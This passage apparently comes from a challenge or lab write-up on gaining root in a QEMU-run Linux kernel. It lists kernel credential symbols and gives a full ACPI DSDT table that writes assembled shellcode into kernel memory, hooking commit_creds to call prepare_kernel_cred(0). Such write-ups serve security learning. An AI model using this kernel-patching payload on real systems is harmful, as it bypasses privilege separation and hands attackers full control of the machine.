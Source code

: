 It worked! Now we just need to find what to patch. It was getting a bit late so I decided to patch `commit_creds` to first call `prepare_kernel_cred(0)` everytime as I knew this would work. Adding `init=/bin/sh` to the `append` qemu flag allows us to stay as root and look at `/proc/kallsyms` to get the kernel symbol addresses:

```bash
/ # cat /proc/kallsyms | grep creds
ffffffff8104a9f0 T exit_creds
ffffffff8104aaa0 T prepare_creds
ffffffff8104ab60 T prepare_exec_creds
ffffffff8104ab70 T copy_creds
ffffffff8104ac20 T commit_creds
```

I wanted to hook `commit_creds` by jumping to my payload which would call `prepare_kernel_cred(0)`, run any instructions that were overwritten, then jump back. I found a nice place at `0xFFFFFFFF81241000` that was all nops so wrote the payload there. The final DSDT was:

```haskell
DefinitionBlock ("", "DSDT", 1, "BOCHS ", "BXPCDSDT", 0x00000002)
{
  Method (_INI, 0, NotSerialized) {
      // -- 0xFFFFFFFF81241000 space for payload
      OperationRegion (PWDN, SystemMemory, 0x1241000, 0x400)
      Field (PWDN, AnyAcc, NoLock, Preserve)
      {
        JMPA, 0x400
      }
      
      // -- call prepare_kernel_cred(0)
      // -- asm -c 64 -f raw 'push r13; push r12; mov rax, 0xffffffff8104adc0; mov rdi, 0; call rax; mov rdi, rax; mov r13, [0xFFFFFFFF81839040]; push 0xFFFFFFFF8104AC30; ret;' |xxd -i
      JMPA = Buffer ()
      {                    
       0x41, 0x55, 0x41, 0x54, 0x48, 0xc7, 0xc0, 0xc0, 0xad, 0x04, 0x81, 0x48,
       0xc7, 0xc7, 0x00, 0x00, 0x00, 0x00, 0xff, 0xd0, 0x48, 0x89, 0xc7, 0x4c,
       0x8b, 0x2c, 0x25, 0x40, 0x90, 0x83, 0x81, 0x68, 0x30, 0xac, 0x04, 0x81,
       0xc3 
     }

      // -- 0xFFFFFFFF8104AC24 in commit_creds
      OperationRegion (NISC, SystemMemory, 0x104ac24, 96)
      Field (NISC, AnyAcc, NoLock, Preserve)
      {
        NICD, 96
      }

      // -- asm -c 64 -f raw "mov rax, 0xFFFFFFFF81241000; jmp rax" |xxd -i
      NICD = Buffer ()
      {                    
       0x48, 0xc7, 0xc0, 0x00, 0x10, 0x24, 0x81, 0xff, 0xe0, 0x90, 0x90, 0x90
     }
     Return (One)
   }  
 
 }
```
